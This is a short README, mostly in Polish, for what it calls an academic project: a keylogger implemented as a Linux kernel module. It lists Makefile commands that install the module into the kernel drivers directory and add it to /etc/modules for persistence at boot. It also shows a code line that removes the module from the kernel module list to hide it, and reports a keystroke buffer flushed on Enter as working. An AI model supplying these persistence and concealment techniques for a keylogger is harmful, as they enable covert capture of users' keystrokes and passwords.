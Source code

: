 # lkmKeylogger
Academic project - keylogger as a linux kernel module

-----
Włączanie modułu przy starcie systemu (załadowanie modułu)
-----

https://stackoverflow.com/questions/4356224/how-to-load-a-custom-module-at-the-boot-time-in-ubuntu
http://www.ouah.org/LKM_HACKING.html#I.6.

do pliku Makefile dodałem:

#skopiowanie modułu do folderu ze sterownikami

sudo cp mymodule.ko /lib/modules/$(shell uname -r)/kernel/drivers/

#dodanie modułu do pliku automatycznie uruchamiajacego module-at-the-boot-time-in-ubuntu

echo 'mymodule' | sudo tee -a /etc/modules

#włączenie modułu

sudo insmod keylogger.ko

#Update the list of module dependencies.

sudo depmod

do pliku keylogger.c dodałem:

#Ukrywanie modulu na liscie
list_del(&THIS_MODULE->list);


-----
Stworznie bufora zwalnianego klawiszem <ENTER>
-----

working!
